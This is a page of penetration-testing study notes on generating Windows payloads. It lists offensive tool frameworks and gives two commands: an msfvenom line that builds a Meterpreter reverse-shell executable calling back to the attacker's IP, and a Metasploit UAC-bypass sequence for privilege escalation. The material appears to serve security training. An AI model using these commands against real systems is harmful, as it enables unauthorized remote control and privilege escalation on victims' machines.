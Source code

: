 ```yaml
---
title: Windows Payload Generation
category: Access
tags: [download, upload, wget, curl]
tools: ['ftp', 'openssl', 'python', 'impacket-smb-server']
---
```


# Windows Payloads

## Payload Generation

We have plenty of good options for dealing with generating payloads  to use against Windows hosts. We touched on some of these already in  previous sections. For example, the Metasploit-Framework and MSFVenom is a very handy way to generate payloads since it is OS agnostic. The  table below lays out some of our options. However, this is not an  exhaustive list, and new resources come out daily.

| **Resource**                      | **Description**                                              |
| --------------------------------- | ------------------------------------------------------------ |
| `MSFVenom & Metasploit-Framework` | [Source](https://github.com/rapid7/metasploit-framework) MSF is an extremely versatile tool for any pentester's toolkit. It  serves as a way to enumerate hosts, generate payloads, utilize public  and custom exploits, and perform post-exploitation actions once on the  host. Think of it as a swiss-army knife. |
| `Payloads All The Things `        | [Source](https://github.com/swisskyrepo/PayloadsAllTheThings) Here, you can find many different resources and cheat sheets for payload generation and general methodology. |
| `Mythic C2 Framework`             | [Source](https://github.com/its-a-feature/Mythic) The Mythic C2 framework is an alternative option to Metasploit as a  Command and Control Framework and toolbox for unique payload generation. |
| `Nishang`                         | [Source](https://github.com/samratashok/nishang) Nishang is a framework collection of Offensive PowerShell implants and  scripts. It includes many utilities that can be useful to any pentester. |
| `Darkarmour`                      | [Source](https://github.com/bats3c/darkarmour) Darkarmour is a tool to generate and utilize obfuscated binaries for use against Windows hosts. |

## [MSVENOM](../Exploitation/msvenom.md) 

**Common**

## Example: Generating a Windows Meterpreter Payload

A common approach is to use `windows/meterpreter/reverse_tcp` payload:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=4444 -f exe -o shell.exe
```

This command generates an executable that, when run on the target system,  establishes a reverse connection to the attacker’s machine.

## Bypassing UAC for Privilege Escalation

Once a foothold is gained, attackers can attempt to bypass User Account Control (UAC):

```
use exploit/windows/local/bypassuac
set SESSION <SESSION_ID>
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```

